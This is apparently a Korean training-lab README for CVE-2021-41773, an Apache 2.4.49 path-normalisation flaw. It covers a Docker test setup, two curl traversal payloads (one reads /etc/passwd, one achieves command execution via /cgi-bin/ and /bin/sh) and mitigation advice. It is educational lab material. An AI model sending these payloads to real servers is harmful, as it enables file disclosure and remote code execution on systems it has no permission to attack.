


# CVE-2021-41773

[영어](https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-41773/README.md)
[중국어](https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-41773/README.zh-cn.md)

> 화이트햇 스쿨 3기 - [이다솔 (@dasol729)](https://github.com/dasol729)

<br/>

### 요약

Apache HTTP Server는 가장 널리 사용되는 오픈소스 웹 서버 중 하나로, 전 세계 수많은 웹사이트와 시스템에서 사용되고 있습니다. 모듈 기반의 유연한 구조를 갖고 있으며, CGI, Proxy, SSL 등 다양한 기능을 설정 파일을 통해 지원합니다. 

CVE-2021-41773는 Apache HTTP Server 2.4.49 버전에서 경로 정규화(Path Normalization) 처리 과정에 결함으로 발생한 취약점입니다. 이 취약점을 이용하면 Apache의 내부 정규화를 우회하여 **파일 노출(File Disclosure) 및 원격 명령 실행(RCE)** 이 가능합니다.

<br/>

### 환경 설정 및 실행

- `docker compose up -d`를 실행하여 테스트 환경을 실행
  - `http://<IP>:8080`에 접속하여 확인 가능

- `/etc/passwd` 파일 내용 노출 확인
    ```bash
    curl -v --path-as-is http://<IP>:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
    ```
  - `--path-as-is` : URL 경로를 정규화하지 않고 그대로 전송

- 쉘 명령어 실행 확인 (CGI 활성화 시)
    ```bash
    curl -v --data "echo;id" 'http://<IP>:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
    ```

<br/>

### 결과




<br/>

### 정리

이 취약점은 Apache가 클라이언트로부터 전달받은 URL 경로를 정규화하는 과정에 결함이 있어, `%2e`, `%2e%2e` 등으로 경로 탐색이 가능하다는 문제에서 비롯됩니다.

- 그 결과, 민감한 파일(/etc/passwd)에 접근이 가능해지고
- CGI 모듈이 활성화되어 있고, 디렉터리 접근 제어 설정이 부재할 경우에는 원격 명령 실행(RCE)까지 가능합니다.   

### 대응 방안

- Apache HTTP Server를 2.4.51 이상으로 업데이트
- httpd.conf내의 Require all denied 설정하여 디렉터리 접근 제어
- CGI 기능(mod_cgi)이 불필요한 경우 비활성화하여 공격 표면 축소
